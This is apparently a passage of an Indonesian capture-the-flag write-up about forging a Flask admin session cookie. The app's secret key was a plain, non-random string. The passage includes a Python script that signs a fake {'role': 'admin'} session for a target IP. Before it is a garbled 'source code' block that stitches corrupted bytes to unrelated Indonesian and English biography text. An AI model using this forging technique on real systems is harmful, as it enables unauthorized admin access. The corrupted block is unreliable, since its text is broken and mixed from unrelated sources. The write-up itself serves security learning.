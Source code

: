 ```python
�indahElla, anggota JKT48 Generasi 10 yang debut pada 18 Desember 2021, memiliki hobi traveling, menonton film, makan camilan, dan memasak. Dia mengagumi Shani Indira Natio dan dikenal dengan perkenalan uniknya, "Ohayo! Konnichiwa! Aku ingin ada di setiap harimu." Kelebihannya meliputi kemampuan empati dan memahami perasaan orang lain, sedangkan kelemahannya adalah mudah merasa sedih dan khawatir. Ella menyukai kata "Fighters get what they want," dan bercita-cita menjadi idol serta pengusaha. Makanan favoritnya adalah jagung manis dengan susu dan keju serta durian, sedangkan makanan yang tidak disukainya adalah seblak, hati ayam, dan kerang. Warna favoritnya adalah pink, dan dia ingin menguasai bahasa Korea dan Jepang. Mata pelajaran sekolah favoritnya adalah Bahasa, dan dia suka menghabiskan waktu di museum. Kucing adalah hewan favoritnya. Ella adalah anggota tertua di generasi ke-9 JKT48 yang lahir setelah tahun 2000. Dia lulus ujian Akademi Kelas B tahap 1 pada 23 Januari 2020 dan tahap 2 pada 25 Januari 2020, yang membuatnya dipromosikan ke Kelas A. Saat ini, dia sedang belajar Pendidikan Bahasa Inggris di Universitas Negeri Jakarta (UNJ) dan mengungkapkan keterkaitannya dengan universitas tersebut saat acara Ramadan khusus JKT48, "The Slap Show," pada 2023. Ella dekat dengan Adzana Shaliha, Kathrina Irene, Marsha Lenathea, Gita Sekar Andarini, dan Cornelia Vanisa. Dia adalah anak tengah dari tiga bersaudara, dengan seorang kakak perempuan yang adalah seorang dokter dan adik laki-laki. Kakaknya mengreeselp��]ellaRadia Joy Perlman (/ˈreɪdiə/;[1] born December 18, 1951) is an American computer programmer and network engineer. She is a major figure in assembling the networks and technology to enable what we now know as the internet. She is most famous for her invention of the spanning-tree protocol (STP), which is fundamental to the operation of network bridges, while working for Digital Equipment Corporation, thus earning her nickname "Mother o�,
                                                                                                                     �UellaElla adalah salah satu anggota JKT48 dari Generasi 10, yang memulai debutnya pada 18 Desember 2021 bersama tujuh member lainnya. Ella dikenal dengan perkenalan uniknya, yaitu "Ohayo! Konnichiwa! Aku ingin ada di setiap harimu," yang banyak dianggap sangat membakar semangat para penggemarnya.��indahSusan Landau (born 1954) is an American mathematician, engineer, cybersecurity policy expert, and Bridge Professor in Cybersecurity and Policy at the Fletcher School of Law and Diplomacy at Tufts University. She previously worked as a Senior Staff Privacy Analyst at Google. She was a Guggenheim Fellow and a visiting scholar at the Computer Science Department, Harvard University in 2012
```
{% endtab %}
{% endtabs %}

* Awal saya analisis file app.py, saya menyadari bahwa secret\_key yang digunakan adalah berupa string biasa / tidak random (_weak secret key_). Dari situ, saya langsung craft python script untuk men-generate sebuah JWT token agar bisa login sebagai admin dengan memanfaatkan **role=”admin”**. Berikut adalah kodenya.

{% code title="gen_session_cookie.py" overflow="wrap" lineNumbers="true" %}
```python
# GENERATE ADMIN SESSION COOKIE USING WEAK SECRET KEY!
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

# Fungsi untuk membuat sesi palsu
def create_session(secret_key, data):
    session_interface = SecureCookieSessionInterface()
    serializer = URLSafeTimedSerializer(
        secret_key,
        salt='cookie-session',
        signer_kwargs={'key_derivation': 'hmac', 'digest_method': 'sha1'}
    )
    return serializer.dumps(data)

# URL target
url = "http://146.190.104.208:7012"

# Buat sesi palsu
secret_key = 'os.urandom(8)'
session_data = {'role': 'admin'}
fake_session = create_session(secret_key, session_data)
print(fake_session)
```